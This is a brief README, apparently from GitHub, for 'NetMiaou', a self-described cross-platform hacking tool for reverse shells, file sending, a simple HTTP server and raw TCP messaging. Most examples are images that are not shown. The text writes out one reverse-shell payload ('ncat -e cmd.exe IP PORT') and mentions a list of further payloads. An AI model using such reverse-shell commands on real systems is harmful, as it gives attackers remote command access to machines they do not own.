 # **NetMiaou**

***NetMiaou is an crossplatform hacking tool that can do reverse shells, send files, create an http server or send and receive tcp packet*** 

## **USAGE**
![help image](images/help.png)

## **EXAMPLE**

### - simple reverse shell using payload ncat -e cmd.exe IP PORT
**you can use the --show-payloads flag to see all available payloads**
![help image](images/reverseShellExample.png)

### - sending files using NetMiaou
![sending files images](images/sendFile.png)

### - simple http server
![http server](images/http.png)

### - sending text in tcp packets
![sending simple socket](images/tcpMessage.png)
